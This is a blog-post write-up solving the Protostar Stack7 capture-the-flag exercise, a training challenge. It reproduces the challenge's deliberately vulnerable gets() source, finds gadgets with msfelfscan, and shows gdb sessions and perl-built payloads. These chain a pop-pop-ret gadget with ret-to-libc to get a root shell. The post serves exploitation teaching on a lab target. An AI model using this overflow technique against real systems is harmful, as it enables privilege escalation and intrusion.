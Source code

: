 ```yaml
---
layout: post
title:  "Protostar Stack7 challenge"
date:   2018-05-04 10:05:36 +0530
categories: exploit-exercises protostar stack7
---
```

[Stack7][stack7-link] is the last challenge in the [Protostar][protostar-link] series of challenges.
The source code for this challenge is below 
{% highlight cpp %} 
#include <stdlib.h> 
#include <unistd.h>
#include <stdio.h> 
#include <string.h>

char getpath() 
{ 
	char buffer[64]; 
	unsigned int ret; 
	printf("input path please: "); 
	fflush(stdout); gets(buffer); 
	ret = __builtin_return_address(0); 
	if((ret & 0xb0000000) == 0xb0000000) 
	{ 
		printf("bzzzt (%p)\n", ret); 
		_exit(1); 
	} 
	printf("got path %s\n", buffer); 
	return strdup(buffer); 
} 
int main(int argc, char **argv) 
{ 
	getpath(); 
} 
{% endhighlight %} 
We see there is a check for return address ret starting with 0xb. 
If we remember from our attempt at solving [stack6][stack6-proto-link] the return address check has further been broadened from addresses starting with 0xbf to 0xb.
This would mean that we cannot use Return to libc technique to solve this challenge. Since the libc system and exit calls had addresses starting with 0xb we cannot use them in this challenge.
This challenge description mentions using return to .text. A quick google search pointed to this being a sort of return oriented programming technique.
Now it had been some time since I had studied about ROP so this [coursera-rop-video][courser-rop-video-link] was a nice refresher on basics of the technique.
I used metasploit to find the location of gadgets to be used for ROP. I copied the executable of stack7 to ubuntu machine where metasploit was installed for finding the address of gadgets.
{% highlight shell %} 
VirtualBox:$ msfelfscan --help 
Usage: /opt/metasploit-framework/bin/../embedded/bin/msfelfscan [mode] [targets] 
Modes: 
	-j, --jump [regA,regB,regC] Search for jump equivalent instructions 
	-p, --poppopret Search for pop+pop+ret combinations 
	-r, --regex [regex] Search for regex match 
	-a, --analyze-address [address] Display the code at the specified address 
	-b, --analyze-offset [offset] Display the code at the specified offset 
Options: 
	-A, --after [bytes] Number of bytes to show after match (-a/-b) 
	-B, --before [bytes] Number of bytes to show before match (-a/-b) 
	-D, --disasm Disassemble the bytes at this address 
	-I, --image-base [address] Specify an alternate ImageBase 
	-h, --help Show this message 
{% endhighlight %}
Since `poppopret` type gadgets were used in video tutorial link i tried to search executable for them.
{% highlight shell %}
VirtualBox:~$ msfelfscan -p stack7
[stack7]
0x08048492 pop ebx; pop ebp; ret
0x080485c7 pop edi; pop ebp; ret
0x080485f7 pop ebx; pop ebp; ret
{% endhighlight %}
So we have three poppopret gadgets available to us. Let us use first one at `0x08048492`. So our return address will be `0x08048492` this time. Since this gadget has two `pop` instructions, the next two values in payload will be popped to respective registers and next value will be our next return address.
So payload should look like `[junk uptil RET][RET=addr gadget-poppopret][pop1 val][pop2 val][next RET addr]`. Lets check if we're correct in `protostar` VM image.
{% highlight shell %}
user@protostar:~$ perl -e 'print "A"x80 . "\x92\x84\x04\x08" . "B"x4 . "C"x4 . "D"x4 . "E"x100 ' > payload
user@protostar:~$ gdb /opt/protostar/bin/stack7
(gdb) r < payload
Starting program: /opt/protostar/bin/stack7 < payload
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��AAAAAAAAAAAA��BBBBCCCCDDDDEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEE
Program received signal SIGSEGV, Segmentation fault.
0x44444444 in ?? ()
(gdb) info r
eax            0x804a008    134520840
ecx            0x0  0
edx            0x1  1
ebx            0x42424242   1111638594
esp            0xbffff7dc   0xbffff7dc
ebp            0x43434343   0x43434343
esi            0x0  0
edi            0x0  0
eip            0x44444444   0x44444444
eflags         0x210202 [ IF RF ID ]
cs             0x73 115
ss             0x7b 123
ds             0x7b 123
es             0x7b 123
fs             0x0  0
gs             0x33 51
(gdb) x/10s $esp
0xbffff7dc:  'E' <repeats 100 times>
0xbffff841:  ""
0xbffff842:  ""
0xbffff843:  ""
0xbffff844:  "\020b\377\267\233\333\352\267\364\357\377\267\001"
0xbffff852:  ""
0xbffff853:  ""
0xbffff854:  "\020\204\004\b"
0xbffff859:  ""
0xbffff85a:  ""
{% endhighlight %}
`info r` shows that `$ebx` register has been overwritten with B, `$ebp` has been with C and `$eip` the instruction pointer has been overwritten with DDDD ie `0x44444444`.
Since this value was used as return address we get a `SIGSEGV`.
Also `x/10s $esp` shows us that `$esp` now points to EEEE.... 
Now since we have passed the check for `RET` address we can user `ret-to-libc` technique further complete the exploit.
So we have space after second RET too. So if we want to implement this exploit using shellcode we can either put our shellcode where we have placed AAA or we can place it after second RET. Also we can try placing our shellcode in an enviromment variable and returning to it.
Repeating steps for [Stack6][stack6-my] we create an enviromment variable and get its address when running `stack7` and also get address of `system` and `exit` calls for `ret-to-libc`
{% highlight shell %}
user@protostar:~$ export EGG="/bin/sh"
user@protostar:~$ ./getenvaddr EGG /opt/protostar/bin/stack7
EGG will be at 0xbffffa02
user@protostar:~$ gdb /opt/protostar/bin/stack7 
(gdb) b main
Breakpoint 1 at 0x804854b: file stack7/stack7.c, line 28.
(gdb) r
Starting program: /opt/protostar/bin/stack7 
Breakpoint 1, main (argc=1, argv=0xbffff784) at stack7/stack7.c:28
28  stack7/stack7.c: No such file or directory.
    in stack7/stack7.c
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
{% endhighlight %}
So now our payload shall look like `[junk uptil RET][RET=addr gadget-poppopret][pop1 val][pop2 val][system][exit][/bin/sh]`
Using perl to create payload combining `ROP` and `ret-to-libc` we are able to successfully spwan a shell
{% highlight shell %}
user@protostar:~$ perl -e 'print "A"x80 . "\x92\x84\x04\x08" . "B"x4 . "C"x4 ."\xb0\xff\xec\xb7" . "\xc0\x60\xec\xb7" . "\x02\xfa\xff\xbf"' > payload
user@protostar:~$ (cat payload; cat) | /opt/protostar/bin/stack7
input path please: 
got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��AAAAAAAAAAAA��BBBBCCCC�����`�����
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
{% endhighlight %}

[stack7-link]:https://exploit-exercises.com/protostar/stack7/
[protostar-link]:https://exploit-exercises.com/protostar/
[stack6-proto-link]:https://exploit-exercises.com/protostar/stack6/
[courser-rop-video-link]:https://www.youtube.com/watch?v=XZa0Yu6i_ew
[stack6-my]: https://rawatm.github.io/security/protostar/2018/04/22/protostar-exploit-exercises-stack6/